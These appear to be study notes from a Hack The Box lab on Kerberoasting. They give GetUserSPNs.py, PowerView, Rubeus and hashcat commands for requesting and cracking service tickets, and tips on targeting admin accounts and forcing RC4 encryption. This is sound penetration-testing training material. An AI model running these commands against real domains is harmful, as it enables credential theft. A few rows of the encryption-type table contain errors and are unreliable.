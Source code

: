 ```shell-session
Orbixio@htb[/htb]$ GetUserSPNs.py -dc-ip 192.168.110.55 painters.htb/riley
Orbixio@htb[/htb]$ GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request 
Orbixio@htb[/htb]$ GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev
Orbixio@htb[/htb]$ GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev -outputfile sqldev_tgs
```

```powershell-session
PS C:\htb> Import-Module .\PowerView.ps1
PS C:\htb> Get-DomainUser * -spn | select samaccountname
PS C:\htb> Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat

PS C:\htb> Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_tgs.csv -NoTypeInformation
```

```powershell-session
PS C:\htb> .\Rubeus.exe kerberoast /stats
PS C:\htb>  .\Rubeus.exe kerberoast /user:testspn /nowrap
PS C:\htb> .\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap
```

> [!NOTE] Prioritizing Cracking
> Use Rubeus to request tickets for accounts with the `admincount` attribute set to `1`. These would likely be high-value targets and worth our initial focus for offline cracking efforts with Hashcat.

### Encryption Types

```powershell-session
# Getting supported ETypes for a user
PS C:\htb> Get-DomainUser <username> -Properties samaccountname,serviceprincipalname,msds-supportedencryptiontypes
```

| **Decimal Value** | **Hex Value** | **Supported Encryption Types**                                                       |
| ----------------- | ------------- | ------------------------------------------------------------------------------------ |
| 0                 | 0x0           | Not defined - defaults to RC4_HMAC_MD5                                               |
| 1                 | 0x1           | DES_CBC_CRC                                                                          |
| 2                 | 0x2           | DES_CBC_MD5                                                                          |
| 3                 | 0x3           | DES_CBC_CRC, DES_CBC_MD5                                                             |
| 4                 | 0x4           | RC4                                                                                  |
| 5                 | 0x5           | DES_CBC_CRC, RC4                                                                     |
| 6                 | 0x6           | DES_CBC_MD5, RC4                                                                     |
| 7                 | 0x7           | DES_CBC_CRC, DES_CBC_MD5, RC4                                                        |
| 8                 | 0x8           | AES 128                                                                              |
| 9                 | 0x9           | DES_CBC_CRC, AES 128                                                                 |
| 10                | 0xA           | DES_CBC_MD5, AES 128                                                                 |
| 11                | 0xB           | DES_CBC_CRC, DES_CBC_MD5, AES 128                                                    |
| 12                | 0xC           | RC4, AES 128                                                                         |
| 13                | 0xD           | DES_CBC_CRC, RC4, AES 128                                                            |
| 14                | 0xE           | DES_CBC_MD5, RC4, AES 128                                                            |
| 15                | 0xF           | DES_CBC_CBC, DES_CBC_MD5, RC4, AES 128                                               |
| 16                | 0x10          | AES 256                                                                              |
| 17                | 0x11          | DES_CBC_CRC, AES 256                                                                 |
| 18                | 0x12          | DES_CBC_MD5, AES 256                                                                 |
| 19                | 0x13          | DES_CBC_CRC, DES_CBC_MD5, AES 256                                                    |
| 20                | 0x14          | RC4, AES 256                                                                         |
| 21                | 0x15          | DES_CBC_CRC, RC4, AES 256                                                            |
| 22                | 0x16          | DES_CBC_MD5, RC4, AES 256                                                            |
| 23                | 0x17          | DES_CBC_CRC, DES_CBC_MD5, RC4, AES 256                                               |
| 24                | 0x18          | AES 128, AES 256                                                                     |
| 25                | 0x19          | DES_CBC_CRC, AES 128, AES 256                                                        |
| 26                | 0x1A          | DES_CBC_MD5, AES 128, AES 256                                                        |
| 27                | 0x1B          | DES_CBC_MD5, DES_CBC_MD5, AES 128, AES 256                                           |
| 28                | 0x1C          | RC4, AES 128, AES 256                                                                |
| 29                | 0x1D          | DES_CBC_CRC, RC4, AES 128, AES 256                                                   |
| 30                | 0x1E          | DES_CBC_MD5, RC4, AES 128, AES 256                                                   |
| 31                | 0x1F          | DES_CBC_CRC, DES_CBC_MD5, RC4-HMAC, AES128-CTS-HMAC-SHA1-96, AES256-CTS-HMAC-SHA1-96 |
> [!NOTE] Don't have Time?
> While it is possible to crack AES-128 (type 17) and AES-256 (type 18) TGS tickets using [Hashcat](https://github.com/hashcat/hashcat/pull/1955), it will typically be significantly more time consuming than cracking an RC4 (type 23) encrypted ticket, but still possible especially if a weak password is chosen.

We can use Rubeus with the `/tgtdeleg` flag to specify that we want only RC4 encryption when requesting a new service ticket. The tool does this by specifying RC4 encryption as the only algorithm we support in the body of the TGS request.
```
PS C:\htb> .\Rubeus.exe kerberoast /tgtdeleg /user:testspn /nowrap
```
#### Cracking TGS Ticket
```shell-session
Orbixio@htb[/htb]$ hashcat -m 13100 hash /usr/share/wordlists/rockyou.txt 
```
